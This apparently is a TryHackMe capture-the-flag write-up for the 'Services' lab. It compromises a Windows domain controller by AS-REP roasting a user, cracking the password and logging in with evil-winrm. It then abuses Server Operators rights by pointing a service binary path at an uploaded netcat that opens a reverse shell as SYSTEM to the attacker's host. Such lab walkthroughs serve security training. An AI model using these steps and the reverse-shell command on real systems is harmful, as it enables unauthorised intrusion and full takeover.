






# THM - Services

#### Ip: 10.10.181.162
#### Name: Services
#### Rating: Intermediate

------------------------------------------------


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.162       
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-18 10:44 CST
Warning: 10.10.181.162 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.181.162
Host is up (0.13s latency).
Not shown: 65405 closed tcp ports (reset), 101 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Above Services
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 16:45:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SERVICES
|   NetBIOS_Domain_Name: SERVICES
|   NetBIOS_Computer_Name: WIN-SERVICES
|   DNS_Domain_Name: services.local
|   DNS_Computer_Name: WIN-SERVICES.services.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-18T16:46:18+00:00
|_ssl-date: 2024-12-18T16:46:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2024-12-17T16:41:15
|_Not valid after:  2025-06-18T16:41:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-18T16:46:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.11 seconds
```

Lets update our `/etc/hosts` file:
```
10.10.181.162   services.local WIN-SERVICES.services.local
```

Looks like we've got a Domain Controller here.

Looking at the website on port 80 we find an `/about.html` which lists a few employees, and luckily for us also gives us the username naming convention.



Lets use this to create a usernames list:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ cat users.txt   
j.doe
j.rock
w.masters
j.larusso
administrator
```

(always a good idea to just tack on administrator as well to lists like these for Windows targets)

### Exploitation

Using this list we find we can as-rep roast the j.rock user:



Lets add this to a file called j.rock_hash and try cracking it with John.

Nice, that worked:



`j.rock:Serviceworks1`

We can use evil-winrm to login:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ evil-winrm -i 10.10.181.162 -u j.rock -p 'Serviceworks1'
```

And grab the user.txt flag:



### Privilege Escalation

Running `whoami /all` we see our user is in the Server Operators group:



We should be able to abuse this for root access.

First let's see what services are running:

```
*Evil-WinRM* PS C:\temp> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc 
```

We can then upload a copy of nc64.exe:

```
*Evil-WinRM* PS C:\temp> upload ~/Tools/AD/nc64.exe
Info: Uploading ~/Tools/AD/nc64.exe to C:\temp\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Let's then update the service path, stop it, and then start it again:

```
*Evil-WinRM* PS C:\temp> sc.exe config cfn-hup binPath="C:\temp\nc64.exe -e cmd.exe 10.6.72.91 445"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\temp> sc.exe stop cfn-hup
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\temp> sc.exe start cfn-hup
```

This catches us a shell back as system in our listener:

```
┌──(ryan㉿kali)-[~/THM/Services]
└─$ nc -lnvp 445                                        
listening on [any] 445 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.162] 59624
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
WIN-SERVICES
```

We can now grab the root.txt flag:



Thanks for following along!

-Ryan

---------------------------------------
